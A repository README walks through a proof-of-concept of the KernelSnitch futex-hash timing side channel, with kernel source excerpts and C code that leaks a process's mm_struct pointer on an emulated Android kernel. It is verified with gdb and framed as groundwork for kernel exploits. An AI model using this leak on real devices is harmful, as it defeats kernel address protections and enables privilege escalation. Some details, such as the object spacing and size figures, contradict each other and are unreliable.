


# KernelSnitch: Practical Software Side-Channel Attacks on Kernel Data Structures

This repository contain Proof-of-Concept(PoC) code of kernelsnitch side-channel to leak **mm_struct** from kernel heap.

I found lots of repository that claims working kernelsnitch poc code, but I couldn't run or make any of it work.

Other repository claims they could leak mm_struct via futex_hash tables but they didn't work for me, so I decide to deep dive and try to implement it myself.

Repository Structure Overveiw:

`./src/` -> Contain poc code and libraries.

`emulate.sh` -> bash script that will emulate android kernel and busybox with qemu(ARM64).


### Setup Environment

 **Emulate android kernel with qemu and busybox.** 

For more detailed explanation checkout this blogpost: [streypaws.github.io](https://streypaws.github.io/posts/Android-Kernel-Build-Debugging/#emulate-the-android-kernel-using-qemu). So I won't copy paste explain these steps.

You must read above blogpost, compile kernel source code and busybox as written in that blogpost before continuing.

**So for this demo I used:**

- Android Kernel (**android14-6.1-deprecated**)

``````bash
git clone --branch deprecated/android14-6.1-2024-04 --depth 1 --single-branch https://android.googlesource.com/kernel/common android14-6.1-deprecated
``````

- Busybox (**buildroot-2025.05.1**) compiled as shown in above blogpost.

Download Link: https://buildroot.org/downloads/buildroot-2025.05.1.tar.gz

- qemu-system-aarch64 (**version 8.2.2**)

So after you've successfully emulate that kernel image you could connect to kernel via ssh.


### Let's GO.

There's `research_paper.pdf` which I put here for reference purpose, I will explain PoC code according to that research paper, and make it as simple expanation as possible to easily understand. 

You need to have knowledge about these before continuing:

- What is futex in linux kernel - [kernel-internals.org](https://kernel-internals.org/locking/futex/)

- What is kernelsnitch under the hood - Read `research_paper.pdf`.

Or just ask to AI which I do most of the time to speed up my learning.

#### What is KernelSnitch and Why we use it in here.

**KernelSnitch** is a generic software-induced side-channel attack that targets operating system kernel data containers—such as hash tables and trees—by measuring execution time variances caused by their variable occupancy levels from an unprivileged, isolated user space.   

In our Proof-of-Concept, we use KernelSnitch to precisely leak kernel heap pointers (specifically a target processss `mm_struct`) by observing hash collisions in structures like the futex hash table. Leaking this kernel memory address breaks address space layout defenses and enables advanced **cross-cache reuse**. This allows us to reclaim freed slab memory for security-critical objects (such as `msg_msg`), providing the foundational primitive required to successfully execute and scale downstream kernel exploits like **CVE-2026-43499** (futex use-after-free conditions).   


### The Root Cause: Variable Occupancy in Shared Containers

In linux kernel futex system. We have component called **futex_hash** table which is a fixed-size array of key-indexed buckets that store linked lists of active user-space synchronization queues (`struct futex_q` objects). Because the kernel must iterate through these linked lists during operations like `futex_wake()`, the execution time changes dynamically depending on the bucket's occupancy level, creating the timing side-channel that KernelSnitch exploits. 

So let's break above technical explanation into dump language like I understand. 
So meaning we could determine if futex hash bucket is empty or have lots of objects via timing different between `sys_futex` with `FUTEX_WAKE_PRIVATE` argument. 

As Maar et al. highlight in **Section IV (Root Cause Analysis)** and **Figure 4/5** of the paper:


 (Don't worry, we'll break down the exact `__measure` code handling this timing sorcery in just a bit)


#### Why We Need to Determine Timing Differences Between Empty and Full Hash Buckets

When we call `sys_futex` with `FUTEX_WAIT_PRIVATE` argument.
`kernel/futex/syscalls.c:166`

``````c
SYSCALL_DEFINE6(futex, u32 __user *, uaddr, int, op, u32, val,
		const struct __kernel_timespec __user *, utime,
		u32 __user *, uaddr2, u32, val3)
``````

It then calls `do_futex` then `futex_wait`

`````c
switch (cmd) {
	case FUTEX_WAIT:
		val3 = FUTEX_BITSET_MATCH_ANY;
		fallthrough;
	case FUTEX_WAIT_BITSET:
		return futex_wait(uaddr, flags, val, timeout, val3);
`````

The argument we control is `uaddr` value. 

`kernel/futex/waitwake.c:639`

``````c
int futex_wait(u32 __user *uaddr, unsigned int flags, u32 val, ktime_t *abs_time, u32 bitset)
{
	struct hrtimer_sleeper timeout, *to;
	struct restart_block *restart;
	struct futex_hash_bucket *hb;
	struct futex_q q = futex_q_init;
	int ret;
...
[*]	ret = futex_wait_setup(uaddr, val, flags, &q, &hb);
	if (ret)
		goto out;
...
}


int futex_wait_setup(u32 __user *uaddr, u32 val, unsigned int flags,
		     struct futex_q *q, struct futex_hash_bucket **hb)
{
	u32 uval;
	int ret;
...
retry:
[*]	ret = get_futex_key(uaddr, flags & FLAGS_SHARED, &q->key, FUTEX_READ);
	if (unlikely(ret != 0))
		return ret;

retry_private:
[*]	*hb = futex_q_lock(q);
...
	return ret;
}

``````

``````c
int get_futex_key(u32 __user *uaddr, bool fshared, union futex_key *key,
		  enum futex_access rw)
{
	unsigned long address = (unsigned long)uaddr;
	struct mm_struct *mm = current->mm;
...
    
[1]	key->both.offset = address % PAGE_SIZE; 
	if (unlikely((address % sizeof(u32)) != 0))
		return -EINVAL;
...
    
		if (IS_ENABLED(CONFIG_MMU))
[2]			key->private.mm = mm;
		else
[2]			key->private.mm = NULL;

[3]		key->private.address = address;
		return 0;
	}
...
}
``````

`get_futex_key` function setup `union futex_key` parameters. The only 3 of them are important for us which they are used in `futex_hash()` function which is one of two main functions which our side-channel attack based on.

[1] `key->both.offset = address % PAGE_SIZE` -> It set offset to **uaddr** % **PAGE_SIZE**.

[2] `key->private.mm = mm` -> It set **private.mm** = **mm_struct** object of current process or thread. We will need to brute force and try random addresses in this field.

[3] `key->private.address = address` -> This is our uaddr value from userspace.

Why this **get_futex_key** necessary for our research and poc.

Because if we look at `futex_wait_setup()` function again. 

``````c
int futex_wait_setup(u32 __user *uaddr, u32 val, unsigned int flags,
		     struct futex_q *q, struct futex_hash_bucket **hb)
{
	u32 uval;
	int ret;
...
retry:
[*]	ret = get_futex_key(uaddr, flags & FLAGS_SHARED, &q->key, FUTEX_READ);
	if (unlikely(ret != 0))
		return ret;

retry_private:
[*]	*hb = futex_q_lock(q);
...
	return ret;
}
``````

The key is consumed in `futex_q_lock()` (`kernel/futex/core.c:524`):

```c
/* The key must be already stored in q->key. */
struct futex_hash_bucket *futex_q_lock(struct futex_q *q)
    __acquires(&hb->lock)
{
    struct futex_hash_bucket *hb;

[*] hb = futex_hash(&q->key);

    futex_hb_waiters_inc(hb); /* implies smp_mb(); (A) */

    q->lock_ptr = &hb->lock;

    spin_lock(&hb->lock);
    return hb;
}

struct futex_hash_bucket *futex_hash(union futex_key *key)
{
    u32 hash = jhash2((u32 *)key, offsetof(typeof(*key), both.offset) / 4,
              key->both.offset);

    return &futex_queues[hash & (futex_hashsize - 1)];
}
```

`futex_q_lock()` calls `futex_hash()` with `q->key` which  filled in earlier by `get_futex_key()`. `jhash2()` then hashes the fields set there: the `mm` pointer, the page-aligned address, and the in-page offset (used as the initial value).

The hash table size depends on the CPU count. On my 4-CPU machine, `futex_queues` has 1024 buckets, which you can confirm in the boot log:

```
# dmesg | grep -i futex
[    0.103123] futex hash table entries: 1024 (order: 4, 65536 bytes, linear)
```

Because `futex_hash()` masks the 32-bit hash down to the table size (`hash & (futex_hashsize - 1)`), many different hash values map to the same index. Different futex keys can therefore land in the same `futex_hash_bucket`, and that collision is what the attack relies on.


Now the answer of **"Why We Need to Determine Timing Differences Between Empty and Full Hash Buckets"** 

Here’s the actual problem: we want the kernel’s `mm_struct` address, but there’s no syscall that just hands it to us. Userspace isn’t supposed to know where that pointer lives. So we need a side door, and `futex` is it.

**The core idea:**

When you call `sys_futex()` with `FUTEX_WAIT_PRIVATE`, the kernel:

1. Hashes `uaddr` + your process’s `mm_struct` pointer
2. Uses that hash to pick a bucket
3. Drops your futex into that bucket

Key fact — same process, same `uaddr`, means same `mm_struct` every time, which means **same bucket, every single call**.

**Step 1 — Fill a bucket**

Call `FUTEX_WAIT_PRIVATE` 4096 times, always with the same `uaddrA` this is how our increase and do_increase fucntion works in `./src/kernelsnitch.h`:

``````c
static void *__do_increase(void *arg)
{
    struct inc_arg *inc_arg = (struct inc_arg *)arg;
    struct kernelsnitch_shared_state *ks = inc_arg->ks;
    SYSCHK(__futex((unsigned int *)&ks->inc_futex[128], FUTEX_WAIT_PRIVATE, 0, NULL, NULL, 0));
    free(inc_arg);
    return 0;
}

static void __increase(struct kernelsnitch_shared_state *ks, size_t id, size_t amount)
{
    pthread_t tid;
    for (size_t i = 0; i < amount; ++i) {
        struct inc_arg *inc_arg = calloc(1, sizeof(struct inc_arg));
        inc_arg->ks = ks;
        SYSCHK(pthread_create(&tid, 0, __do_increase, (void *)inc_arg));
    }
    WAIT();
}
``````

Our `&ks->inc_futex[128]` is sample **uaddr** value.

Now one bucket is stuffed with 4096 entries, and we know exactly which `uaddr` filled it, it is address of `ks->inc_futex[128]`.

**Step 2 — Probe with timing**

Call `FUTEX_WAKE_PRIVATE` against a candidate address this is what `__measure()` function does.:

```c
static size_t __measure(size_t futex_addr)
{
    size_t t0;
    size_t t1;
    size_t time = 0;
    // do some simple signal processing and reject bad ones
    size_t __times[REPEAT_MEASUREMENT];
    for (size_t l = 0; l < REPEAT_MEASUREMENT; ++l) {
        sched_yield();
        t0 = rdtsc_begin();
[*]        SYSCHK(__futex((unsigned int *)futex_addr, FUTEX_WAKE_PRIVATE, 0, NULL, NULL, 0));
        t1 = rdtsc_end();
        __times[l] = t1 - t0;
    }
    qsort(__times, REPEAT_MEASUREMENT, sizeof(size_t), __compare);
    for (size_t l = 0; l < AVERAGE; ++l)
        time += __times[l];
    time /= AVERAGE;
    return time;
}
```

Two possible outcomes:

- `uaddrB` → different bucket → **empty**, fast lookup
- `uaddrB` → same bucket as `uaddrA` → kernel walks **all 4096 entries** one by one → slow

As research paper says: *"For consistent timing results, we filter outliers and focus on the ones not influenced by noise. Noise can only increase the timing and, hence, we average the lowest **8** values over **512** measurements*" but we define `REPEAT_MEASUREMENT` as 128 which is enough for us.

The paper measured this slowdown at roughly **10x**. So we don’t need to see inside the kernel — we just need a stopwatch. Slow wake = collision. Fast wake = no collision.

```
┌─────────────┐     fast wake      ┌──────────────┐
│  uaddrB      │ ─────────────────▶│ different bkt│
└─────────────┘                    └──────────────┘

┌─────────────┐     slow wake      ┌──────────────┐
│  uaddrB      │ ─────────────────▶│ SAME bucket   │
└─────────────┘   (walks 4096)     │ as uaddrA     │
                                    └──────────────┘
```

**Step 3 — Rebuild the kernel’s hash function, ourselves**

Once we know *how* the kernel hashes, we just copy the logic into userspace:

```c
uint32_t __futex_hash(futex_key_t *key, uint32_t futex_hashsize)
{
    uint32_t hash = futex_hash_no_trunc(key);

    return hash & (futex_hashsize - 1);
}
```

What’s happening here:

- `futex_hash_no_trunc()` → does the real Jenkins-hash grinding over `futex_key_t` (which bakes in the `mm_struct` pointer)
- `hash & (futex_hashsize - 1)` → chops the raw hash down to fit our bucket count

This is the *exact* masking the kernel does inside its own `futex_hash()`. Same math, line for line.

**Step 4 — Brute force**

Here’s the payoff: our homemade hash function only agrees with the kernel’s — i.e. says “yep, `uaddrA` and `uaddrB` collide” — when we plug in the **correct** `mm_struct` address.

So the plan:

1. Guess a kernel heap address (aligned the way `mm_struct` allocations actually are — not random byte-by-byte)
2. Build a `key` using that guess
3. Run it through `__futex_hash()` for both `uaddrA` and `uaddrB`
4. Compare the result against what the timing side channel told us

```
guess mm_struct ──▶ __futex_hash(uaddrA, guess) ──┐
                                                    ├──▶ match?
guess mm_struct ──▶ __futex_hash(uaddrB, guess) ──┘
```

The moment a guess produces a collision that matches what we *measured* — that’s it. That guess **is** the real `mm_struct` address.

We just leaked a kernel pointer using nothing but timing and arithmetic.


### Practical Implementation

**Step 1 — Fill a bucket && Probe with timing**

In our `src/main.c` first we call `kernelsnitch_setup` there's nothing interesting for us it just adjust some parameter that we will use throughout entire execution, like mm_struct size, order and collision count so, I just copied and pasted it from other public repo's. There's nothing fancy I changed.

Some of the  **ks (struct kernelsnitch_shared_state**) definitions:

- **`ks->mm_struct`** -> This will be address of our kernel side mm_struct object. For the setup phase we set it `-1` because we dont know it yet.

- **`ks->mm_struct_sz `**-> the measured/known size of `struct mm_struct` (the `objsize` column you saw in `/proc/slabinfo`, e.g. 1536). Needed later for any `mm_struct`-cache spraying/leaking step — not used directly by the futex-hashing logic, but stored for a separate phase of the attack that targets the `mm_struct` slab cache itself.  If you are using different kernel version than mine adjust it to your own kernel via checking:
  

That is why:

`src/main.c`

``````c
#define MM_STRUCT_SZ 1152 // You need to adjust this
#define MM_ORDER 3 // You need to adjust this
``````

- **`ks->futex_hash_table_size`**, **`ks->total_futexes`**, **`ks->times`** -> In simple words these fields will be used in collision find logic, and making it large enough important for correctness. 

Then we call`kernelsnitch_find_collisions`. Inside that function: 

``````c
void kernelsnitch_find_collisions(struct kernelsnitch_shared_state *ks)
{
    #define ID 128
#ifndef KERNELSNITCH_THRESHOLD_MULT
#define KERNELSNITCH_THRESHOLD_MULT 10
#endif
    size_t count = 0;
    size_t wanted;
    size_t futex_addr;
    size_t id;
    ASSERT_pr((ks->state == KERNELSNITCH_INIT), "wrong state\n");
    ASSERT_pr((ks->collisions >= 2), "need at least one collision\n");
    wanted = 8;

[1] size_t approx_time = MIN(__measure((size_t)&ks->futexes[0]), __measure((size_t)&ks->futexes[KS_PAGE_SIZE+8]));
    printf("Approx_time: [%d]\n", approx_time);
    
    // piled-up hash bucket ID 128
    // here, I append 4096 futexes to this hash bucket creating a distinction between most other empty or lightly populated ones

[2] __increase(ks, ID, APPENDED_FUTEXES);
    
    pr_info("start finding collisisons\n");
    
    // find futex user space address which collide with the piled-up hash bucket ID 128
[3] ks->futex_addrs[0] = (size_t)&ks->inc_futex[ID];
    if (ks->verbose) pr_info("target    %016zx\n", ks->futex_addrs[0]);
    for (size_t i = 2; i < ks->total_futexes && count < wanted; ++i) {
        id = (i * KS_PAGE_SIZE) | (i * 8 % KS_PAGE_SIZE);
        if (id >= FUTEX_SZ)
            break;
        futex_addr = (size_t)&ks->futexes[id];
        
[4]     ks->times[i] = __measure(futex_addr);
        
        if (ks->times[i] > (approx_time*KERNELSNITCH_THRESHOLD_MULT)) {
            
            count++;
            ks->futex_addrs[count] = futex_addr;
            pr_info("[%d] Collision address: 0x%lx\n", count, futex_addr);            
        }
    }
    if (wanted == count) {
        if (ks->verbose) pr_info("found %zd collisisons\n", count);
        ks->state = KERNELSNITCH_COLLISIONS_FOUND;
    } else {
        pr_warning("only found %zd collisions -> cannot continue\n", count);
        ks->state = KERNELSNITCH_COLLISIONS_NOT_FOUND;
    }
}
``````

[1] We need to determine **approximete** time that **futex_wake** syscall take for emtpy hash bucket, because we didn't fill that bucket by calling __increase for now.

[2] We call `_increase` function which fills hash_bucket with same uaddr value `&ks->inc_futex[128]`.

[3] We memorize that address of `&ks->inc_futex[128]`, we will need this for comparison later.

[4] Measure how long **futex_wake** syscall take via random **uaddr** values. If It takes **10x** more than empty bucket then likely this will land into our **hash_bucket** which we filled with `&ks->inc_futex[128]` uaddr value.

Then it memorizes all uaddr values that takes **10x** more than empty hash_bucket which is `time(uaddr) > approx_time*10`


**Step 2 - Brute Force random mm_struct addresses.**

Now program memorized all uaddr values that takes more than approx time(emtpy hash_bucket) in `ks->futex_addrs[]` array. 

So at this point we have everything we need on the **futex key** side (the `uaddr`s that collide into our piled-up bucket), the only unknown left in `union futex_key` is `key->private.mm` — the actual **mm_struct** pointer of the victim. `kernelsnitch_bruteforce` is the function that goes hunting for it.

``````c
void kernelsnitch_bruteforce(struct kernelsnitch_shared_state *ks)
{
    ASSERT_pr((ks->state == KERNELSNITCH_COLLISIONS_FOUND), "wrong state\n");
    if (ks->verbose) pr_info("start bruteforcing\n");
    reset_cpu_pin();

    for (size_t i = 0; i < ks->thread_cnt; ++i) {
        struct mm_leak_arg *mm_leak_arg = (struct mm_leak_arg *)SYSCHK(calloc(1, sizeof(struct mm_leak_arg)));
        mm_leak_arg->ks = ks;
[1]     mm_leak_arg->range.id = i;
[2]     mm_leak_arg->range.start = IDENTITY_START + ks->identity_diff*i;
[2]     mm_leak_arg->range.end = IDENTITY_START + ks->identity_diff*(i+1);
[3]     if ((mm_leak_arg->range.start % COARSE_SZ) != 0)
            mm_leak_arg->range.start = (mm_leak_arg->range.start & ~(COARSE_SZ - 1));
[3]     if ((mm_leak_arg->range.end % COARSE_SZ )!= 0)
            mm_leak_arg->range.end = ((mm_leak_arg->range.end & ~(COARSE_SZ - 1)) + COARSE_SZ);
[4]     SYSCHK(pthread_create(&ks->tids[i], 0, __mm_leak, mm_leak_arg));
    }
[5] for (size_t i = 0; i < ks->thread_cnt; ++i)
        pthread_join(ks->tids[i], 0);
[6] ks->state = (ks->mm_struct == (size_t)-1) ? KERNELSNITCH_MM_NOT_FOUND : KERNELSNITCH_MM_FOUND;
}
``````

Why do we even get to brute force across a whole address range instead of just trying random 64-bit numbers? Because **mm_struct** is a slab object, and every slab object is backed by a physical page, and every physical page in the system is mirrored 1:1 inside one fixed kernel region called the **linear map** (`phys_to_virt(x) = (x - PHYS_OFFSET) | PAGE_OFFSET`). So instead of a 2^39-sized haystack, our real haystack shrinks down to "however big the linear map region is" — that's exactly what `IDENTITY_START`/`IDENTITY_END` mark the boundaries of.

[1] `mm_leak_arg->range.id = i` -> just a thread index, nothing fancy, used for bookkeeping/logging.

[2] `range.start`/`range.end` -> This is the actual work-splitting logic. We take the entire linear map (`IDENTITY_START` .. `IDENTITY_END`), and cut it into `thread_cnt` equal-sized slices via `ks->identity_diff` (`= (IDENTITY_END - IDENTITY_START) / thread_cnt`). Thread `i` only scans its own slice `[IDENTITY_START + identity_diff*i, IDENTITY_START + identity_diff*(i+1))` — this is how the brute force is parallelized across CPU cores instead of one thread crawling the whole range serially.

[3] The two `COARSE_SZ` roundings -> `mm_struct` can't start at just any byte offset, it only ever lands on slab/allocation-aligned boundaries. `COARSE_SZ` is that alignment granularity. These two `if` blocks just snap each thread's `start` **down** and `end` **up** to the nearest `COARSE_SZ` boundary, so that:

- no thread accidentally starts mid-object (would cause missed candidates)
- neighboring threads' ranges slightly overlap at the seams instead of leaving a gap between them

[4] `pthread_create(..., __mm_leak, mm_leak_arg)` -> spawns one worker thread per slice. `__mm_leak` is where the actual per-candidate testing happens: for every `COARSE_SZ`-aligned address `g` inside its assigned slice, the thread builds a local `union futex_key` using `g` as the guessed `mm`, runs it through the same `jhash2`-based `futex_hash()` math the kernel uses, and checks whether the predicted bucket lines up with the collision we already measured and stored in `ks->futex_addrs[]` back in Step 1. A match gets confirmed/refined against our memorized colliding `uaddr`s, and on success the thread writes the winning guess into `ks->mm_struct`.

[5] `pthread_join(...)` -> main thread just waits here until every worker has either exhausted its slice or already found the answer.

[6] Final state check -> remember `ks->mm_struct` was initialized to `-1` back in `kernelsnitch_setup`. If it's still `-1` after every thread finishes, none of them found a match (`KERNELSNITCH_MM_NOT_FOUND`); otherwise some thread overwrote it with the real **mm_struct** address (`KERNELSNITCH_MM_FOUND`), and we're done — that's the leaked kernel pointer.

In simple explanation, if we have 8GB of RAM in our device then we only need to brute-force roughly that 8GB slice of the linear map, not the whole 64GB reservation — since we’re testing on `android14-6.1-2024-04` and that kernel is compiled as **arm64 VA39**, you can confirm this yourself via:

```bash
zcat /proc/config.gz | grep CONFIG_ARM64_VA_BITS
# or, if config.gz isn't exposed:
dmesg | grep -i "Virtual kernel memory"
```

so we define:

```cpp
#if VA_BITS==39
#ifndef KERNELSNITCH_IDENTITY_START
#define KERNELSNITCH_IDENTITY_START 0xffffff8000000000ULL
```

`KERNELSNITCH_IDENTITY_START` is the fixed starting virtual address of the kernel’s linear map on 39-bit VA (`PAGE_OFFSET`, computed from `-(1 << VA_BITS)`). The bruteforce walks forward from this address, trying every candidate aligned to `mm_struct`’s slab object size and order (not byte-by-byte, since `mm_struct` can only ever start on a slab-aligned boundary), hashes each guess the same way the kernel’s `futex_hash()` would, and compares that result against `&ks->inc_futex[128]` and the other collision addresses we already memorized in Step 1. The moment a guessed address produces the same hash as our measured collisions, that guess **is** the real `mm_struct` address.


**Inside `__mm_leak` — what every worker thread actually does**

`kernelsnitch_bruteforce` only hands each thread a `[range.start, range.end)` slice and spawns it — all the real candidate-generation and hash-matching logic lives in `__mm_leak`, which runs once per thread on its own slice:

```c
static void *__mm_leak(void *arg)
{
    struct mm_leak_arg *mm_leak_arg = (struct mm_leak_arg *)arg;
    struct kernelsnitch_shared_state *ks = mm_leak_arg->ks;
    struct range *range = &mm_leak_arg->range;
    if (ks->verbose) pr_info("[% 3zd] start finding mm_struct [%016zx-%016zx]\n", range->id, range->start, range->end);
[1] size_t mm_slab_sz = KS_PAGE_SIZE << ks->mm_slab_order;
[2] for (size_t coarse_addr = range->start; (coarse_addr < range->end) && !ks->found; coarse_addr += COARSE_SZ) {
        if ((coarse_addr % (1ULL << 40)) == 0)
            if (ks->verbose) pr_info("[% 3zd] [%016zx-%016llx]\n", range->id, coarse_addr, coarse_addr + (1ULL << 40));
[3]     for (size_t slab_addr = coarse_addr; (slab_addr < coarse_addr + COARSE_SZ) && !ks->found; slab_addr += mm_slab_sz) {
[4]         for (size_t mm_struct_candidate = slab_addr; (mm_struct_candidate < slab_addr + mm_slab_sz) && !ks->found; mm_struct_candidate += 64) {
                size_t found_hash = 1;
[5]             if (!ks->mte_enabled) {
                    // test the mm_struct candidate
[6]                 unsigned int index_0 = futex_hash(ks->futex_addrs[0], mm_struct_candidate);
                    for (size_t i = 1; i < ks->collisions && found_hash; ++i){
                        unsigned int index_i = futex_hash(ks->futex_addrs[i], mm_struct_candidate);
                        found_hash = (index_0 == index_i);
                    }
                    if (found_hash) {
                        ks->mm_struct = mm_struct_candidate;
                        pr_info("[SUCCESS]: Leaked mm_struct: 0x%zx\n", ks->mm_struct);
                        ks->found = 1;
                        break;
                    }
                } else {
                    // need to set the tag if mte is enabled
[7]                 for (size_t tag_candidate = 0; tag_candidate < 15 && !ks->found; ++tag_candidate) {
                        size_t __mm_struct_candidate = mm_struct_candidate & ~(0xfULL << 56);
                        __mm_struct_candidate |= (tag_candidate << 56);
                        found_hash = 1;
                        for (size_t i = 1; i < ks->collisions && found_hash; ++i){
                            unsigned int index_0 = futex_hash(ks->futex_addrs[0], __mm_struct_candidate);
                            unsigned int index_i = futex_hash(ks->futex_addrs[i], __mm_struct_candidate);
                            found_hash = (index_0 == index_i);
                        }
                        if (found_hash) {
                            ks->mm_struct = __mm_struct_candidate;
                            ks->found = 1;
                            break;
                        }
                    }
                } 
            }
        }
    }
    free(mm_leak_arg);
    return 0;
}
```

Think of it like searching for one specific book, in one specific library, among millions of libraries.

```
[ YOUR 8GB/64GB SEARCH AREA = a city full of libraries ]
        │
        ▼ jump by COARSE_SZ (1GB) ─ just walking down the street, block by block
        │   (this number is ONLY here so it can print "still searching..." sometimes.
        │    it has nothing to do with finding the book, it's just a progress bar.)
        ▼
   ┌─────────────┐
   │ ONE LIBRARY │   <- this is one "slab". size = mm_slab_sz
   └─────────────┘
        │
        ▼ jump by mm_slab_sz ─ walk street to street, but ONLY stop at library buildings
        │   (we skip houses/shops in between because the book can ONLY be inside
        │    a library, never anywhere else — so checking non-library buildings
        │    would be a waste of time)
        ▼
   ┌───┬───┬───┬───┬───┬───┐
   │ 1 │ 2 │ 3 │ 4 │ 5 │...│   <- one library has many shelves (objects) inside it
   └───┴───┴───┴───┴───┴───┘
        │
        ▼ jump by 64 bytes ─ check shelf 1, shelf 2, shelf 3...
        │   (every shelf is exactly 64 bytes apart, so we hop shelf-to-shelf
        │    instead of checking every single page of every single book)
        ▼
   ┌────────┐
   │ SHELF  │  <- one candidate guess for mm_struct
   └────────┘
        │
        ▼ "is this the right book?"
        │
    ┌───────────────────────────────┐
    │ hash(shelf, collision#1) == ? │──NO──▶ wrong shelf, move to next one
    │ hash(shelf, collision#2) == ? │
    │ hash(shelf, collision#3) == ? │
    └───────────────────────────────┘
        │
       YES (all match)
        │
        ▼
   🎉 FOUND mm_struct! 🎉
```

**In plain words:**

- **Step A (1GB jumps):** We don't search byte-by-byte because that would take forever. We jump in big 1GB chunks just so the program can print "I'm still alive, here's my progress" every so often. This number means nothing special, it's just a logging checkpoint.
- **Step B (slab-size jumps):** `mm_struct` only lives inside special kernel storage blocks called "slabs." So instead of checking every single address, we only stop at the start of each slab — calculated from the slab size we looked up earlier in `/proc/slabinfo`. Checking in-between addresses would be pointless, nothing real can be there.
- **Step C (64-byte jumps):** One slab holds many `mm_struct` objects lined up back-to-back, each one 64 bytes apart (like shelves in a library). So inside one slab, we check shelf 1, shelf 2, shelf 3... one object at a time.
- **Step D (the hash check):** For every guessed shelf (address), we ask: "if this really were the victim's `mm_struct`, would it produce the exact same hash collisions we already measured with the timing attack?" We check it against **several** collisions, not just one, so a lucky coincidental match doesn't fool us. If they *all* agree → that's our answer.
- **Step E (the MTE twist):** Some phones scramble the top few bits of every pointer as a security feature (called MTE). If that's turned on, we don't just guess the address — we also have to guess which of 16 possible "stickers" (tags) was slapped on top of it. So it's like: "is this the right shelf... *and* is it wearing the right colored sticker?" — up to 16x more guessing work.

**TL;DR table:**

| Jump size       | What it skips past                  | Why                                                          |
| --------------- | ----------------------------------- | ------------------------------------------------------------ |
| 1GB             | nothing important                   | just a progress-print checkpoint                             |
| slab size       | random non-slab memory              | `mm_struct` can only start at a slab boundary                |
| 64 bytes        | nothing, this IS the object spacing | each `mm_struct` object inside a slab sits exactly 64 bytes from the next |
| ×16 (if MTE on) | —                                   | brute-forcing the random tag sticker on top of the address   |

### Let's test our code.

First compile our binary: 

``````bash
cd src 
make
``````

ignore warnings and as the result we will get `main` binary file.

Launch our emulator and upload that binary

``````bash
bash emulate.sh &

scp -P 13337 ./main root@localhost:~/
``````

Result:


So question here that **mm_struct** address claimed really **mm_struct** pointer of our process.


Run the emulator with `debug` argument


That way we could attach **gdb** and debug that kernel interactively.  So we want to check if our kernel_snitch poc `main` binary find correct **mm_struct** as it claims.

When you compile kernel yourself as shown in above blogpost. You will get `vmlinux` file in that kernel folder.

In my case I'll use `pwndgb`.  Set breakpoint at 

``````c
break futex_wait if $_streq(((struct task_struct *)$SP_EL0)->comm, "main")
``````

above breakpoint will hit when we call `__increase` function.

`emulate.sh` will expose gdbserver port on `1234` port, connect to remote gdbserver via 

``````bash
target remote localhost:1234
``````




Type `c` after you connect, now pwndbg wait for `futex_wait` from processname `main`

Now run our `main`.

Once our breakpoint hit 

``````bash
pwndbg> p/x ((struct task_struct *)$SP_EL0)->mm
``````


Now we should see `0xffffff80019428c0` as our mm_struct from `main` output.

detach our gdb session from kernel by typing `detach`


As we expected we got `0xffffff80019428c0` output.
